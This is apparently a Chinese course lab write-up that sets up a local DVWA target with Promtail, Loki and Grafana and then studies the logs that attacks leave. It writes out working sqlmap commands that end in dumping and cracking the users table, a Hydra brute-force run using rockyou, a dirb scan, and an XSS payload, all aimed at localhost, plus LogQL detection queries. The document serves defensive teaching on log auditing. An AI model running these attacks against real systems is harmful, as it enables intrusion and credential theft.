---
AIGC:
    Label: "1"
    ContentProducer: 001191440300708461136T1XGW3
    ProduceID: 278e15af09c947df43b62560d322c33a_eeb94a03b40911f1812e525400248c00
    ReservedCode1: b9ihIhmWuMfyhiJOqok0rcykbGdnVvtZdpNJGcMWou0hJolpLR1U7wU9OlNTJIOp8pHQJ5Ppx/Xgqsm/ls2zjbkiUd/olMc4pRHyqRn/AaKvz8BEvSezhhyDyn19WdSosnh0JRmW9IYXnOkK7RuR9uesafc7uPV8Exr7rp4+tYhjB/GjZAdIIyXddjo=
    ContentPropagator: 001191440300708461136T1XGW3
    PropagateID: 278e15af09c947df43b62560d322c33a_eeb94a03b40911f1812e525400248c00
    ReservedCode2: b9ihIhmWuMfyhiJOqok0rcykbGdnVvtZdpNJGcMWou0hJolpLR1U7wU9OlNTJIOp8pHQJ5Ppx/Xgqsm/ls2zjbkiUd/olMc4pRHyqRn/AaKvz8BEvSezhhyDyn19WdSosnh0JRmW9IYXnOkK7RuR9uesafc7uPV8Exr7rp4+tYhjB/GjZAdIIyXddjo=
title: DVWA靶机攻击日志收集与观察
published: 2026-09-19
pinned: false
description: 记录「DVWA 靶机攻击日志收集与观察」实验：在实验 2 的日志架构基础上引入 DVWA 靶机，由 Promtail 从靶机采集日志，通过攻击 DVWA 靶机产生攻击日志，再在浏览器中利用 Grafana 观察生成的攻击日志，建立攻击行为与日志数据之间的关联概念。
tags: [日志分析, DVWA, Grafana, Promtail, 攻击日志]
category: 日志审计
licenseName: ''
author: Mudrock
sourceLink: ''
slug: dvwa-attack-log-observation
image: ./images/LogAuditExp3/log-01.png
---


记录「DVWA 靶机攻击日志收集与观察」实验：在实验 2 的日志架构基础上引入 DVWA 靶机，由 Promtail 从靶机采集日志，通过攻击 DVWA 靶机产生攻击日志，再在浏览器中利用 Grafana 观察生成的攻击日志，建立攻击行为与日志数据之间的关联概念。

## 实验目的及要求

按照此前实验 2 的实验架构图（图 1），实验 3 在其基础上引入 DVWA 靶机，Promtail 从靶机中获取日志信息，其后通过攻击 DVWA 靶机生成对应的攻击日志，在浏览器中利用 Grafana 观察生成的攻击日志，建立对于某些攻击行为与其背后日志数据之间存在关联的概念。


图 1 实验架构图

## 实验原理与内容

基于 ELK 类日志架构，通过 Promtail 采集 DVWA 靶机的 Docker 容器日志与系统 journal 日志，发送至 Loki 存储，再利用 Grafana 对 Loki 数据进行查询、聚合与可视化，建立攻击行为（如 SQL 注入、暴力破解）与日志特征（关键词、频率、状态码）的关联。

## 实验软硬件环境

- Kali Linux 虚拟机（以 VirtualBox 为例）

## 任务一：启动靶机环境

### 步骤1.1 创建实验3目录

```bash
# 基于实验2创建实验3目录
mkdir -p ~/log-lab/exp3
```



```bash
# 复制实验2的配置文件作为基础
cd ~/log-lab/exp3
cp ~/log-lab/exp2/loki-config.yml .
cp ~/log-lab/exp2/promtail-config.yml promtail-config-base.yml
```



### 步骤1.2 拉取DVWA镜像

```bash
# 提前拉取DVWA镜像
docker pull vulnerables/web-dvwa

# 验证镜像
docker images | grep dvwa
```



### 步骤1.3 创建实验3的docker-compose.yml

执行以下命令：

```yaml
cat > docker-compose.yml <<'EOF'
services:
  loki:
    image: grafana/loki:2.9.4
    container_name: exp3-loki
    ports:
      - "3100:3100"
    volumes:
      - ./loki-config.yml:/etc/loki/local-config.yaml
      - loki-data:/loki
    command: -config.file=/etc/loki/local-config.yaml
    restart: unless-stopped
    networks:
      - exp3-network
    healthcheck:
      test: ["CMD-SHELL", "wget --no-verbose --tries=1 --spider http://localhost:3100/ready || exit 1"]
      interval: 10s
      timeout: 5s
      retries: 5

  grafana:
    image: grafana/grafana:10.3.1
    container_name: exp3-grafana
    ports:
      - "3000:3000"
    environment:
      - GF_SECURITY_ADMIN_USER=admin
      - GF_SECURITY_ADMIN_PASSWORD=admin123
      - GF_USERS_ALLOW_SIGN_UP=false
    volumes:
      - grafana-data:/var/lib/grafana
      - ./grafana-provisioning:/etc/grafana/provisioning
    restart: unless-stopped
    networks:
      - exp3-network
    depends_on:
      loki:
        condition: service_healthy

  dvwa:
    image: vulnerables/web-dvwa
    container_name: exp3-dvwa
    ports:
      - "8080:80"
    environment:
      - MYSQL_PASS=password
    restart: unless-stopped
    networks:
      - exp3-network
    logging:
      driver: "json-file"
      options:
        max-size: "10m"
        max-file: "3"

  promtail:
    image: grafana/promtail:2.9.4
    container_name: exp3-promtail
    volumes:
      - /var/log/journal:/var/log/journal:ro
      - /run/log/journal:/run/log/journal:ro
      - /etc/machine-id:/etc/machine-id:ro
      - /var/lib/docker/containers:/var/lib/docker/containers:ro
      - /var/run/docker.sock:/var/run/docker.sock:ro
      - ./promtail-config.yml:/etc/promtail/config.yml
    command: -config.file=/etc/promtail/config.yml
    restart: unless-stopped
    networks:
      - exp3-network
    depends_on:
      - loki

networks:
  exp3-network:
    driver: bridge

volumes:
  grafana-data:
  loki-data:
EOF
```



### 步骤1.4 创建Promtail配置文件（采集journald+Docker容器日志）

注意：在本实验拉取的 docker 镜像中，可能存在 Docker API 版本不兼容问题。Promtail 2.9.4 使用的 Docker client 版本（1.42）与 Kali 的 Docker daemon API 版本（1.44）不匹配。

解决方案：使用静态文件采集代替 Docker SD，直接采集 Docker 容器日志文件，而不是通过 Docker API 动态发现。

```yaml
# 执行以下命令（已经修改为静态配置采集DVWA容器日志文件）：
cat > promtail-config.yml <<'EOF'
server:
  http_listen_port: 9080
  grpc_listen_port: 0

positions:
  filename: /tmp/positions.yaml

clients:
  - url: http://loki:3100/loki/api/v1/push

scrape_configs:
  # 采集系统journald日志
  - job_name: journal
    journal:
      max_age: 12h
      labels:
        job: systemd-journal
        host: kali-linux
      relabel_configs:
        - source_labels: ['__journal__systemd_unit']
          target_label: 'unit'
        - source_labels: ['__journal_priority_keyword']
          target_label: 'level'

  # 采集DVWA容器日志文件（静态路径）
  - job_name: dvwa-logs
    static_configs:
      - targets:
          - localhost
        labels:
          job: dvwa-logs
          container: exp3-dvwa
          __path__: /var/lib/docker/containers/*/*-json.log
    pipeline_stages:
      - json:
          expressions:
            log: log
            stream: stream
            attrs: attrs
      - json:
          source: attrs
          expressions:
            tag: tag
      - regex:
          source: tag
          expression: 'docker\.{{\.container_name}}'
      - timestamp:
          source: time
          format: RFC3339Nano
      - output:
          source: log
EOF
```



### 步骤1.5 创建Grafana数据源配置

```bash
# 创建文件夹
mkdir -p grafana-provisioning/datasources
```



```yaml
# 创建配置文件
cat > grafana-provisioning/datasources/loki.yml <<'EOF'
apiVersion: 1

datasources:
  - name: Loki
    type: loki
    access: proxy
    url: http://loki:3100
    isDefault: true
    editable: false
    jsonData:
      maxLines: 1000
      derivedFields:
        - name: "IP Address"
          matcherRegex: "from\\s+(\\d+\\.\\d+\\.\\d+\\.\\d+)"
          url: "$${__value.raw}"
        - name: "Request"
          matcherRegex: "(GET|POST|PUT|DELETE)\\s+(/[^\\s]*)"
          url: "$${__value.raw}"
EOF
```



### 步骤1.6 启动实验3环境

```bash
# 确保在实验3目录
cd ~/log-lab/exp3

# 启动所有服务
docker-compose up -d
```



```bash
# 查看服务状态
docker-compose ps
```



```bash
# 等待服务初始化（约30秒）
sleep 30

# 验证各服务状态
echo "=== Loki状态 ==="
curl -s http://localhost:3100/ready
echo ""
echo "=== DVWA访问地址 ==="
echo "http://localhost:8080 (admin/password)"
echo ""
echo "=== Grafana访问地址 ==="
echo "http://localhost:3000 (admin/admin123)"
```



### 步骤1.7 验证DVWA启动

```bash
# 检查DVWA日志
docker-compose logs dvwa | tail -20
# 预期看到：Database setup successful 或类似信息（注意：截图为实验过后的日志信息，没有Database setup successful的类似信息正常）
```



浏览器访问：http://localhost:8080

登录：admin / password

操作：点击左侧 Setup / Reset DB 初始化数据库



## 任务二：实时日志分析（攻击开始前）

### 2.1 在Grafana中观察攻击流量

浏览器访问：http://localhost:3000 进入 Explore，选择 Loki 数据源



### 2.2 攻击特征查询

**查询1：验证查看 DVWA 容器所有访问日志的功能是否可以正常运行**

首先检查 Promtail 是否成功启动

```bash
# 查看Promtail日志
docker-compose logs promtail | tail -10
```



验证采集是否正常

```bash
# URL编码方式验证，使用以下命令
curl -s "http://localhost:3100/loki/api/v1/query?query=%7Bjob%3D%22dvwa-logs%22%7D&limit=5"
```



在 Grafana 中直接查询

浏览器访问：http://localhost:3000

Explore 中输入：

```logql
{job="dvwa-logs"}
```



或

```logql
{container="exp3-dvwa"}
```



**查询2：筛选 SQL 注入特征**

```logql
{container="exp3-dvwa"} |~ "sqlmap|UNION|SELECT|AND 1=1"
```



**查询3：筛选暴力破解特征**

```logql
{container="exp3-dvwa"} |= "Login" |= "password"
```



**查询4：筛选目录扫描特征（404 响应）**

```logql
{container="exp3-dvwa"} |~ "404|403"
```



**查询5：统计攻击源 IP 请求频率**

```logql
sum by (ip) (rate({container="exp3-dvwa"}[1m]))
```



**查询6：查看系统 journald 中的攻击相关日志**

```logql
{job="systemd-journal"} |~ "docker|dvwa"
```



### 2.3 创建攻击监控专用Panel

在 Dashboard 中添加攻击分析专用的 Panel，新 dashboard 命名为 DVWA：



**Panel 1：DVWA 访问趋势**

```logql
sum(rate({container="exp3-dvwa"}[1h]))
```

- Title: DVWA实时访问趋势
- Visualization: Time series



**Panel 2：攻击类型分布**

查询配置：由于 LogQL 无法直接做复杂的攻击类型分类，使用多个 Query 分别统计：



查询命令：

```logql
sum(count_over_time({container="exp3-dvwa"} |~ "sqlmap|UNION|SELECT" [1h]))
```



```logql
sum(count_over_time({container="exp3-dvwa"} |= "Login" |= "password" [1h]))
```



```logql
sum(count_over_time({container="exp3-dvwa"} |~ "404|403" [1h]))
```



其他配置信息，包含 Title，Visualization 等：





最后 dashboard 的总体效果呈现如图：



## 任务三：执行攻击并生成日志

### 3.1 准备攻击工具（已完成）

Kali Linux 默认已安装以下工具，验证可用：

```bash
# 验证工具
which sqlmap   # SQL注入工具
which hydra    # 暴力破解工具
which dirb     # 目录扫描工具
```



```bash
# 如未安装，使用以下命令安装
sudo apt install -y sqlmap hydra dirb
```

### 3.2 登录DVWA并设置安全级别

```bash
# 1. 浏览器访问 http://localhost:8080
# 2. 登录：admin / password
# 3. 点击左侧 "DVWA Security"
# 4. Security Level 选择 "Low"
# 5. 点击 "Submit"
```



### 3.3 获取DVWA会话Cookie

```bash
# 使用浏览器开发者工具(F12) → Application/Storage → Cookies
# 或使用curl获取（替换IP和端口）
# 方法：手动登录后，在浏览器控制台执行：
# document.cookie
# 复制 PHPSESSID 值
```



```bash
# 设置环境变量（替换xxx为实际值）
export DVWA_COOKIE="PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low"
export DVWA_URL=http://localhost:8080
```



### 3.4 执行SQL注入攻击（SQLMap）

步骤 1：找到注入点

浏览器访问：

```text
http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#
```



步骤 2：执行 SQLMap

注意："sqlmap 默认启用会话恢复，重复执行同一目标时可能不产生新的 HTTP 请求。如需为日志分析产生充足数据，建议：

- 删除会话缓存：`rm -rf ~/.local/share/sqlmap/output/localhost`
- 或使用 `--flush-session` 强制重新探测"

```bash
# 在终端执行（替换Cookie）第一次实验
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" \
--cookie="PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low" \
--batch \
--random-agent \
--level=1 \
--risk=1
```





```bash
# 执行第二次实验
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" \
--cookie="PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low" \
--batch \
--random-agent \
--dbs  # 获取数据库列表
```



```bash
# 执行第三次实验
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" \
--cookie="PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low" \
--batch \
--random-agent \
-D dvwa \
--tables  # 获取dvwa数据库的表
```



```bash
# 执行第四次实验，获取 users 表的列信息
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" \
--cookie="PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low" \
--batch --random-agent \
-D dvwa \
-T users \
--columns
```



```bash
# 执行第五次实验，dump攻击
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" \
--cookie="PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low" \
--batch \
--random-agent \
-D dvwa \
-T users \
-C user,password \
--dump
```



sqlmap 会自动识别 MD5 并尝试在线破解，输出明文密码。

至此，DVWA SQL 注入实验的完整数据提取链路（库→表→列→数据）全部完成。

### 3.5 执行暴力破解攻击（Hydra）

**1 解压 rockyou.txt 字典**

```bash
# 进入wordlists目录
cd /usr/share/wordlists

# 解压rockyou.txt.gz（注意：如果存在压缩包则使用这个，课程提供的kali linux虚拟机里面有txt文件）
sudo gunzip rockyou.txt.gz 2>/dev/null || echo "已解压或文件不存在"

# 验证文件
ls -lh rockyou.txt
```



```bash
# 提取前1000行作为测试字典
head -1000 rockyou.txt > /tmp/dvwa-passwords.txt
```



```bash
# 验证字典
wc -l /tmp/dvwa-passwords.txt
head -5 /tmp/dvwa-passwords.txt
```



**2 获取 DVWA 会话 Cookie（此处和此前 sql 注入实验一致）**

```bash
# 浏览器访问 http://localhost:8080
# 登录：admin / password
# 设置Security Level为Low
# F12 → Application → Cookies → 复制PHPSESSID值
# 设置环境变量
export DVWA_COOKIE="PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low"
```

验证 Cookie 有效，执行以下命令，如果返回含 "Vulnerability: Brute Force" 的页面源码，说明有效：

```bash
curl -s http://localhost:8080/vulnerabilities/brute/ \
-H "Cookie: $DVWA_COOKIE" | grep "Vulnerability: Brute Force" && echo "Cookie有效"
```



**3 确认成功特征字符串**

验证 DVWA 暴力破解页面凭据有效性的测试命令，用于判断提交的账号密码是否正确

```bash
# 测试正确密码，查看成功页面特征
curl -s "http://localhost:8080/vulnerabilities/brute/?username=admin&password=password&Login=Login" \
-H "Cookie: $DVWA_COOKIE" | grep -o "Welcome to the password protected area"

# 确认返回此字符串，作为Hydra的-S参数
```

成功特征：`Welcome to the password protected area`



**4 执行 Hydra 暴力破解**

由于 Hydra v9.6 不支持 `-H` 参数传递 Cookie，使用以下命令：

```bash
hydra -l admin \
-P /tmp/dvwa-passwords.txt \
"http-get-form://127.0.0.1:8080/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area" \
-c "$DVWA_COOKIE"
```



```bash
#下面这个命令也可以，不需要用到DVWA_COOKIE
hydra -l admin \
-P /tmp/dvwa-passwords.txt \
"http-get-form://127.0.0.1:8080/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area" \
-c "PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low"
```



攻击持续时间：约 1-3 分钟（取决于字典大小）

上面的产生日志命令可能导致 Hydra 实际以未认证状态攻击 DVWA 登录页本身，而非"已登录后的暴力破解实验页面"。两种场景产生的日志完全不同：

| 场景 | 日志特征 | 区别 |
| --- | --- | --- |
| Cookie 正确 → 攻击实验页面 | 请求 URL 含 `vulnerabilities/brute`，响应 200，大量 `S=Welcome...` 匹配失败 | 标准暴力破解日志模板 |
| Cookie 缺失 → 攻击登录页 | 请求被 302 重定向到 `login.php`，无 `brute` 页面访问记录 | 更像是登录爆破，而非实验场景 |

用下面的命令，执行后若看到 `[ATTEMPT] target ... login: admin password: password ... 1 of 1000` 且最终 `1 valid password found`，说明 Cookie 已正确传递：

```bash
hydra -l admin \
-P /tmp/dvwa-passwords.txt \
"http-get-form://127.0.0.1:8080/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie:${DVWA_COOKIE}:S=Welcome to the password protected area" \
-V  # 加 -V 显示每次尝试详情，便于调试
```



预期生成日志：大量 POST 请求，HTTP 200 响应，登录失败记录

### 3.6 执行目录扫描攻击（Dirb）

```bash
# 执行目录扫描
dirb http://localhost:8080 \
/usr/share/dirb/wordlists/common.txt \
-c "PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low"
```



```bash
# 或使用更小的字典快速测试
dirb http://localhost:8080 \
/usr/share/dirb/wordlists/small.txt \
-c "PHPSESSID=g2u7l8od6pqiuidpsv5emp1fb4; security=low"
```



攻击持续时间：约 2-5 分钟

预期生成日志：大量 GET 请求，404/403 响应，路径遍历特征

## 任务四：攻击后日志分析

（攻击已完成，查看攻击后日志，注意与任务 2 的对比）

### 4.1 在Grafana中观察攻击流量

浏览器访问：http://localhost:3000 进入 Explore，选择 Loki 数据源


### 4.2 攻击特征查询

**查询1：验证查看 DVWA 容器所有访问日志的功能是否可以正常运行**

在 Grafana 中直接查询

浏览器访问：http://localhost:3000

Explore 中输入：

```logql
{job="dvwa-logs"}
```


或

```logql
{container="exp3-dvwa"}
```


**查询2：筛选 SQL 注入特征**

```logql
{container="exp3-dvwa"} |~ "sqlmap|UNION|SELECT|AND 1=1"
```



**查询3：筛选暴力破解特征**

```logql
{container="exp3-dvwa"} |= "Login" |= "password"
```



**查询4：筛选目录扫描特征（404 响应）**

```logql
{container="exp3-dvwa"} |~ "404|403"
```



**查询5：统计攻击源 IP 请求频率**

```logql
sum by (ip) (rate({container="exp3-dvwa"}[1m]))
```


**查询6：查看系统 journald 中的攻击相关日志**

注意，这个日志是查 kali-linux 上的 docker 日志，而不是 dvwa 靶机当中的日志，所以会比较寡淡，有记录的地方是当时 kali-linux 卡住了所以重启了一下而记录下来的。

```logql
{job="systemd-journal"} |~ "docker|dvwa"
```



### 4.3 攻击监控专用Panel

在进行完攻击实验后，dashboard 的效果呈现如图：



由于实验条件所限，不能呈现所有攻击情况所产生的日志，建议学生可以尝试不同的攻击类型，以此查看不同形式的日志分布呈现。

## 任务五：手动分析与关联

### 5.1 查看原始Apache日志

查看命令：

```bash
# 查看DVWA容器日志
docker logs exp3-dvwa | head -50
```



```bash
# 筛选sqlmap攻击
# 搜索UNION/SELECT等SQL关键字
docker logs exp3-dvwa 2>&1 | grep -v "AH00558" | grep -iE "UNION|SELECT|SLEEP|EXTRACTVALUE" | head -20
```



```bash
# 统计HTTP状态码，执行以下命令
docker logs exp3-dvwa | grep -oE '" [0-9]{3} ' | sort | uniq -c | sort -nr
```

会出现类似截图的信息



```bash
# 查看攻击时间分布，执行以下命令
docker logs exp3-dvwa | awk '{print $4}' | cut -d: -f1-2 | sort | uniq -c
```

会出现类似截图的信息



最后是有关于手动 grep 与可视化分析方法的对比，非实操内容，供学生对比学习：



### 5.2 完成实验，关闭浏览器并停止docker compose服务

在终端对应的文件夹 log-lab/exp3

输入 `docker-compose stop`

确保所有容器均关闭，否则在进行后续实验的时候其依然在后台运行，占用相关端口，导致后续的实验无法正常进行。



### 任务5_x（可选，非必须一定要完成的实验）：创建更完整的攻击分析Dashboard

**1 创建新 Dashboard**

- Panel 1：DVWA 总访问量（Stat）

```logql
sum(count_over_time({container="exp3-dvwa"}[1h]))
```

Legend: 总请求数

- Panel 2：SQL 注入攻击检测（Time series）

```logql
sum(rate({container="exp3-dvwa"} |~ "sqlmap|UNION|SELECT|SLEEP" [1h]))
```

Legend: SQL注入请求

- Panel 3：暴力破解尝试（Time series）

```logql
sum(rate({container="exp3-dvwa"} |= "Login" |= "password" [1m]))
```

Legend: 登录尝试

- Panel 4：HTTP 状态码分布（Pie chart）

由于 DVWA 的 Apache 日志格式限制，使用多个 Query 分别统计：



查询命令：

```logql
sum(count_over_time({container="exp3-dvwa"} |~ "\" 200 " [1h]))
sum(count_over_time({container="exp3-dvwa"} |~ "\" 404 " [1h]))
sum(count_over_time({container="exp3-dvwa"} |~ "\" 403 " [1h]))
sum(count_over_time({container="exp3-dvwa"} |~ "\" 500 " [1h]))
sum(count_over_time({container="exp3-dvwa"} |~ "\" 302 " [1h]))
```

注意：状态码前后有空格，如 `" 200 "`、`" 404 "`

显示选项的相关配置





最终成品的演示效果（注意：这个完整版的 dashboard 读取数据很容易崩溃）：





## 其他类型的靶机攻击

### XSS（跨站脚本）攻击测试

一、操作过程：

1、将 DVWA 的安全级别调整为 Low，以模拟无防御的 Web 环境。



2、进入 XSS (Reflected) 模块。



3、在输入框 What's your name? 输入恶意 JavaScript 代码：`<script>alert("I_am_Attack_1")</script>`。



4、点击 Submit 按钮，前端浏览器成功解析并执行了该脚本，弹出了预设的 `I_am_Attack_1`，证明 XSS 漏洞存在。



二、日志分析：

通过 Grafana 平台查询 Loki 日志，使用过滤语法 `{container="exp3-dvwa"} |= "<script>"` 进行检索。



## 五、测试/调试及实验结果分析

本次实验在 Kali Linux 虚拟机中基于 Docker 搭建了 DVWA 靶机、Loki 日志存储与 Grafana 可视化平台，完成了从环境部署、攻击模拟到日志分析的全流程验证。

在环境测试阶段，通过 `docker-compose ps` 确认所有容器（Loki、Grafana、DVWA、Promtail）均正常运行，访问 http://localhost:8080 和 http://localhost:3000 可分别打开 DVWA 靶机和 Grafana 界面。Promtail 配置采用静态文件路径采集 DVWA 容器日志，避免了 Docker API 版本不兼容问题，通过 curl 查询 Loki 接口验证了日志采集功能正常，`{job="dvwa-logs"}` 可成功返回靶机访问记录。

攻击模拟环节共执行四类攻击：

1、**SQL 注入**：通过五次递进式攻击，生成大量包含 UNION SELECT、SLEEP 等特征的请求。日志显示攻击过程中靶机返回 200 状态码，且 SQLMap 自动识别 MD5 哈希并破解明文密码，验证了注入漏洞的有效性。

2、**暴力破解**：首次因 Cookie 传递错误导致攻击指向登录页，调整后通过 `-H "Cookie:${DVWA_COOKIE}"` 参数成功攻击暴力破解页面，生成大量含 `username=admin&password=` 的 POST 请求，状态码均为 200，符合"标准暴力破解日志模板"。

3、**目录扫描**：使用 common.txt 字典扫描，日志中出现大量 404/403 响应，路径覆盖 /admin、/config 等常见目录，体现路径遍历特征。

4、**XSS 攻击（补充测试）**：在 DVWA 的 XSS 反射型漏洞页面输入 `<script>alert("I_am_Attack_1")</script>`，提交后浏览器执行弹窗，Grafana 日志中可检索到 `<script>` 关键字，验证了前端漏洞与日志记录的关联性。

日志分析结果显示，攻击行为与日志特征存在明确对应：SQL 注入请求包含特定 SQL 语法关键词，暴力破解请求频率显著高于正常访问（每秒数条），目录扫描则以高频 404 响应为特征。通过 Grafana 的 Panel 可视化，可直观观察到攻击时段访问量激增、攻击类型分布及 HTTP 状态码变化。

调试过程中遇到的问题主要包括：Hydra 因 Cookie 配置错误导致攻击目标偏移，通过添加 `-H` 参数传递会话信息解决；Promtail 初始配置因 Docker API 版本不兼容无法动态发现容器，改用静态文件路径采集后恢复正常。此外，Loki 在处理大流量日志时偶现延迟，通过限制查询时间范围优化了响应速度。

## 六、实验结论与体会（思考题写在结论与体会的后面）

本次实验通过搭建"靶机-日志采集-存储-可视化"全链路环境，验证了日志审计在网络安全中的核心价值：攻击行为必然留下日志痕迹，且不同攻击类型具有可区分的特征模式。

### 实验结论

1、**日志与攻击的关联性**：SQL 注入、暴力破解、目录扫描等行为均可通过日志关键词、请求频率、状态码分布进行识别。例如，暴力破解日志中 Login 与 password 字段高频出现，且与 200 状态码强关联，可作为攻击检测规则。

2、**日志监控的优势与局限**：相比手动 grep 分析，Loki + Grafana 实现了时间线可视化与聚合统计（如攻击趋势面板），但依赖环境搭建且对大流量处理能力有限；手动分析虽灵活，但难以发现长期攻击模式。

3、**防御启示**：通过日志可及时发现异常访问，结合 WAF 规则拦截含 UNION SELECT 的请求，能有效降低攻击风险。

### 实验体会

完成此次日志审计与分析的实验，我深刻体会到"攻击可见性"的重要性。此前对网络攻击的认知停留在工具使用层面，而本次实验通过日志将抽象的攻击行为转化为具体的文本记录（如 SQLMap 的探测 payload），这种"从现象到数据"的过程让我理解了防御方如何通过日志追溯攻击路径。例如，在分析 Hydra 攻击日志时，我发现即使攻击失败，大量登录尝试仍会消耗服务器资源，这解释了为何"账户锁定策略"是必要的防御手段。

实验中最大的挑战是环境配置（如 Promtail 静态路径调整）和攻击参数调试（如 Hydra 的 Cookie 传递）。通过反复查阅文档和测试，我意识到日志系统的稳定性依赖于组件兼容性（如 Docker API 版本匹配）和配置准确性（如日志路径权限）。此外，XSS 攻击的补充测试让我认识到：即使是简单的前端漏洞，也会在日志中留下明确痕迹，这提示我在未来开发中需同时关注代码安全与日志审计。

### 思考题回答

**如何通过日志区分正常访问与攻击行为？**

- 关键词特征：攻击请求常包含特殊字符（如 `' OR 1=1 --`）或工具标识（如 sqlmap/1.7），正常访问则以业务相关参数为主；
- 频率特征：攻击行为（如暴力破解）请求频率远高于人工操作（通常每秒 < 1 次），可通过 `rate()` 函数检测异常峰值；
- 时间分布：自动化攻击（如 Dirb 扫描）往往在短时间内集中爆发，而正常访问呈随机分布；

通过本次实验，我掌握了从日志中发现攻击线索的方法，也意识到了日志审计不仅是攻击溯源的依据，更是主动防御的重要支撑。
*（内容由AI生成，仅供参考）*
